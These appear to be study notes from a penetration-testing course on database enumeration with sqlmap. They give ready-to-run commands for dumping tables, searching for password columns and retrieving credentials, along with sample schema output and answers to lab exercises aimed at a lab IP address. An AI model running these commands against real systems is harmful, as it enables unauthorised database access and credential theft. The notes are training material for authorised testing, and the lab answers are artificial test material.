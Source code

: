 # 🏇 Database Enumeration

Enumeration usually starts with the retrieval of the basic information:

* Database version banner (switch `--banner`)
* Current user name (switch `--current-user`)
* Current database name (switch `--current-db`)
* Checking if the current user has DBA (administrator) rights.

```shell-session
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

after finding the current database name (i.e. `testdb`) we might want to find the table names -> `--tables` option and specifying the DB name with `-D testdb`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

And after finding the name, we can use `--dump` option and specify the table name with `-T users`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

It will produce a .CSV file that we can use in SQLite:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

If we want to do conditional enumeration and retrieve certain rows we can use the option `--where`, as follows

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

_**What's the contents of table flag1 in the testdb database? (Case #1)**_

```
sqlmap http://94.237.53.113:50888/case1.php?id=1 --dump -T flag1 -D testdb
```

## Advanced Database Enumeration

have a complete overview of the database architecture, we could use the switch `--schema`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --schema
```

It would turn out something like that:

```
...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```

we can search for databases, tables, and columns of interest, by using the `--search` option

```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

It would turn out:

```
..SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+
```

We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):

```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

### Password Enumeration and Cracking

Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

_**What's the name of the column containing "style" in it's name? (Case #1)**_

```
sqlmap -u "http://94.237.53.113:50888/case1.php?id=1" --search -C style
```

_**What's the Kimberly user's password? (Case #1)**_

```
sqlmap -u "http://94.237.53.113:50888/case1.php?id=1" --search -T users
```
